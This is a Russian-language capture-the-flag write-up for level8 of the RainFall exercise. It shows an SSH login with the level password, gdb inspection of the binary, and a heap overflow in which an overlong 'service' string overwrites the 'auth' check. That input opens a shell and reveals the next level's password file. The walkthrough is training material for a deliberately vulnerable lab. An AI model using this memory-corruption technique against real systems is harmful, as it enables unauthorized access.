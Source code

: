 ### level8
0. Заходим под пользователем: `ssh level8@172.16.188.131 -p 4242` / `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`

1. Запускаем бинарник `level8`

```
level8@RainFall:~$ ./level8
(nil), (nil)
asd
(nil), (nil)
qwe
(nil), (nil)
zxc
(nil), (nil)
ntrth
(nil), (nil)
dfgashdgbkqjwbviqvwkl
(nil), (nil)
whoami
(nil), (nil)
```

2. Идем в `gdb` смотрим на функции и переменные:

```
пока ничего не понятно, идём в gdb
(gdb)  i func
0x08048564  main

(gdb) i var
0x08049aac  auth
0x08049ab0  service
```

Заметим что переменные `auth` и `service` расположены очень близко в памяти разница в 4 байта

3. Делайем дизас `disas main` и [восстанавиваем программу](https://disk.yandex.ru/i/-ZEMgS9t41oElw)
4. Видим что есть сравнение  `auth[32]`, но для него у нас же зарезервировано всего 4 байта! Ну чтоже значит `auth[32]` - это кусок из переменной service, ну заполним service большой строкой!

5. Прохождение (**важно!!!** ввести `auth ` с пробелом):

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
servicXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

